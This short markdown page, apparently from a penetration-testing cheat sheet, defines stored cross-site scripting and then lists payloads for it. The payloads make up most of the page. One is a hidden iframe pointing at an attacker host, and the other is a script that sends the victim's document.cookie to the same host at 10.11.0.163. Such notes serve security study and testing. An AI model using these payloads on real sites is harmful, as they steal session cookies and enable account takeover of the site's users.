 Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data (e.g. taking it from the database) within its later HTTP responses in an unsafe way.

## Stored XSS payloads

Stealing cookies via iframe:

```html
<iframe SRC="http://10.11.0.163/gimmecookie" height = "0" width ="0"></iframe>
```

or using an image link:

```bash
<script>
new Image().src="http://10.11.0.163/gimmecookie?output="+document.cookie;
</script>
```